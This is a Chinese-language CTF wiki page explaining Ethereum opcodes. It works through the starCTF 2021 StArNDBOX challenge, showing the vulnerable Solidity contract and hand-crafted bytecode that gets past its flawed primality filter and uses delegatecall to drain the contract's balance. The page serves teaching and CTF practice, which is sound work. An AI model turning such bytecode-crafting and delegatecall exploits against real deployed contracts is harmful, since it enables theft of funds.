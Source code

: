 # Ethereum Opcodes
Ethereum 中的 opcodes 有 142 种，部分常见的 opcodes 如下所示：

| Uint8 | Mnomonic |      Stack Input       | Stack Output |              Expression              |
| :---: | :------: | :--------------------: | :----------: | :----------------------------------: |
|  00   |   STOP   |           -            |      -       |                STOP()                |
|  01   |   ADD    |      \| a \| b \|      | \| a + b \|  |                a + b                 |
|  02   |   MUL    |      \| a \| b \|      | \| a * b \|  |                a * b                 |
|  03   |   SUB    |      \| a \| b \|      | \| a - b \|  |                a - b                 |
|  04   |   DIV    |      \| a \| b \|      | \| a // b \| |                a // b                |
|  51   |  MLOAD   |      \| offset \|      | \| value \|  |   value = memory[offset:offset+32]   |
|  52   |  MSTORE  | \| offset \| value \|  |      -       |   memory[offset:offset+32] = value   |
|  54   |  SLOAD   |       \| key \|        | \| value \|  |         value = storage[key]         |
|  55   |  SSTORE  |   \| key \| value \|   |      -       |         storage[key] = value         |
|  56   |   JUMP   |   \| destination \|    |      -       |          $pc = destination           |
|  5B   | JUMPDEST |           -            |      -       |                  -                   |
|  F3   |  RETURN  | \| offset \| length \| |      -       | return memory[offset:offset+length]  |
|  FD   |  REVERT  | \| offset \| length \| |      -       | revert(memory[offset:offset+length]) |

!!! info 
    JUMPDEST 是跳转指令的 destination，跳转指令不能跳转到没有 JUMPDEST 的地方。

更多的详细 opcodes 信息可以查看 [ethervm.io](https://ethervm.io)。

## 例子
以 startCTF 2021 的 StArNDBOX 一题为例讲解一下 opcodes 的题目。

本题会在部署挑战合约的时候传入 100 wei 到合约中，我们的目标是将合约的 balance 清空。题目合约的源码如下：

```solidity
pragma solidity ^0.5.11;

library Math {
    function invMod(int256 _x, int256 _pp) internal pure returns (int) {
        int u3 = _x;
        int v3 = _pp;
        int u1 = 1;
        int v1 = 0;
        int q = 0;
        while (v3 > 0){
            q = u3/v3;
            u1= v1;
            v1 = u1 - v1*q;
            u3 = v3;
            v3 = u3 - v3*q;
        }
        while (u1<0){
            u1 += _pp;
        }
        return u1;
    }
    
    function expMod(int base, int pow,int mod) internal pure returns (int res){
        res = 1;
        if(mod > 0){
            base = base % mod;
            for (; pow != 0; pow >>= 1) {
                if (pow & 1 == 1) {
                    res = (base * res) % mod;
                }
                base = (base * base) % mod;
            }
        }
        return res;
    }
    function pow_mod(int base, int pow, int mod) internal pure returns (int res) {
        if (pow >= 0) {
            return expMod(base,pow,mod);
        }
        else {
            int inv = invMod(base,mod);
            return expMod(inv,abs(pow),mod);
        }
    }
    
    function isPrime(int n) internal pure returns (bool) {
        if (n == 2 ||n == 3 || n == 5) {
            return true;
        } else if (n % 2 ==0 && n > 1 ){
            return false;
        } else {
            int d = n - 1;
            int s = 0;
            while (d & 1 != 1 && d != 0) {
                d >>= 1;
                ++s;
            }
            int a=2;
            int xPre;
            int j;
            int x = pow_mod(a, d, n);
            if (x == 1 || x == (n - 1)) {
                return true;
            } else {
                for (j = 0; j < s; ++j) {
                    xPre = x;
                    x = pow_mod(x, 2, n);
                    if (x == n-1){
                        return true;
                    }else if(x == 1){
                        return false;
                    }
                }
            }
            return false;
        }
    }
    
    function gcd(int a, int b) internal pure returns (int) {
        int t = 0;
        if (a < b) {
            t = a;
            a = b;
            b = t;
        }
        while (b != 0) {
            t = b;
            b = a % b;
            a = t;
        }
        return a;
    }
    function abs(int num) internal pure returns (int) {
        if (num >= 0) {
            return num;
        } else {
            return (0 - num);
        }
    }
    
}

contract StArNDBOX{
    using Math for int;
    constructor()public payable{
    }
    modifier StAr() {
        require(msg.sender != tx.origin);
        _;
    }
    function StArNDBoX(address _addr) public payable{
        
        uint256 size;
        bytes memory code;
        int res;
        
        assembly{
            size := extcodesize(_addr)
            code := mload(0x40)
            mstore(0x40, add(code, and(add(add(size, 0x20), 0x1f), not(0x1f))))
            mstore(code, size)
            extcodecopy(_addr, add(code, 0x20), 0, size)
        }
        for(uint256 i = 0; i < code.length; i++) {
            res = int(uint8(code[i]));
            require(res.isPrime() == true);
        }
        bool success;
        bytes memory _;
        (success, _) = _addr.delegatecall("");
        require(success);
    }
}
```

可以看到题目的 StArNDBoX 函数可以获取任意地址的合约并检测该合约的每个字节是否为质数，如果通过检查则使用 delegatecall 来调用目标合约。

但由于该合约中的 isPrime 函数并不是完整的质数检查函数，00 和 01 也可以通过检查，因此我们可以构造如下的字节码：

```
// 0x6100016100016100016100016100016100650361000161fbfbf1
61 00 01 | PUSH2 0x0001
61 00 01 | PUSH2 0x0001
61 00 01 | PUSH2 0x0001
61 00 01 | PUSH2 0x0001
61 00 01 | PUSH2 0x0001
61 00 65 | PUSH2 0x0065
03       | SUB
61 00 01 | PUSH2 0x0001
61 fb fb | PUSH2 0xfbfb
f1       | CALL
```

来执行 address(0x0001).call.gas(0xfbfb).value(0x0065 - 0x0001) 语句，也就是将题目合约中的 balance 转到 0x1 处，从而清空 balance 满足得到 flag 的条件。


## 题目

### starCTF 2021
- 题目名称 StArNDBOX

### RealWorld 2019
- 题目名称 Montagy

### QWB 2020
- 题目名称 EasySandbox
- 题目名称 EGM

### 华为鲲鹏计算 2020
- 题目名称 boxgame

!!! note
    注：题目附件相关内容可至 [ctf-challenges/blockchain](https://github.com/ctf-wiki/ctf-challenges/tree/master/blockchain) 仓库寻找。

## 参考
- [Ethervm](https://ethervm.io)
- [starCTF 2021 - StArNDBOX](https://github.com/sixstars/starctf2021/tree/main/blockchain-StArNDBOX)